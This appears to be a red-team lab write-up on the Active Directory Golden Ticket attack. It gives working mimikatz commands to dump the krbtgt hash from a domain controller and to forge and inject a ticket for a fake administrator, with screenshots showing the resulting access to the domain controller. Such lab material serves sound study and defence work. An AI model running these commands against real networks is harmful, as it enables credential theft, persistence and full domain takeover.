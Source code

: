 ```yaml
---
description: Persistence and Privilege Escalation with Golden Kerberots tickets
---
```


# Kerberos - Golden Tickets

This lab explores an attack on Active Directory Kerberos Authentication. To be more precise - an attack that forges Kerberos Ticket Granting Tickets \(TGT\) that are used to authenticate users with Kerberos. TGTs are used when requesting Ticket Granting Service \(TGS\) tickets, which means a forged TGT can get us any TGS ticket - hence it's golden.

This attack assumes a Domain Controller compromise where `KRBTGT` account hash will be extracted which is a requirement for a successful Golden Ticket attack.

## Execution <a id="execution"></a>

Extracting the krbtgt account's password `NTLM` hash:

```text
attacker@victim-dcmimikatz # lsadump::lsa /inject /name:krbtgt
```

![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKTT282cu6cNUIpWW11%2F-LKTTGoQCPbfhNOZvn0j%2Fkerberos-golden-krbtgt-hash.png?alt=media&token=5dfb4acb-2195-4df6-9114-e52fcae00bae)

Creating a forged golden ticket that automatically gets injected in current logon session's memory:

```text
attacker@victim-workstationmimikatz # kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt
```

![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKTT282cu6cNUIpWW11%2F-LKTThyikYYAfLYaxQHH%2Fkerberos-golden-create.png?alt=media&token=35e44950-4407-43fa-a6bf-67dc9096d6b2)

Checking if the ticket got created:![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKTT282cu6cNUIpWW11%2F-LKTTt1PNSbb4q3pKN__%2Fkerberos-golden-klist.png?alt=media&token=6269071e-dd35-488a-bd51-953d56926c35)

Opening another powershell console with low privileged account and trying to mount a `c$` share of `pc-mantvydas` and `dc-mantvydas` - not surprisingly, returns access denied:![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKTT282cu6cNUIpWW11%2F-LKTUC-jFCwRhZEmHe4f%2Fkerberos-golden-denied.png?alt=media&token=6d243cc0-09de-40e4-b55d-0729c7f6eefd)

However, switching back to the console the attacker used to create the golden ticket \(local admin\) and again attempting to access `c$` share of the domain controller - this time is a success:![](https://blobscdn.gitbook.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LKTT282cu6cNUIpWW11%2F-LKTUnwdX3d7NvIED1zX%2Fkerberos-golden-granted.png?alt=media&token=0c6c25a9-de40-430c-951c-e4ffddeb818c)

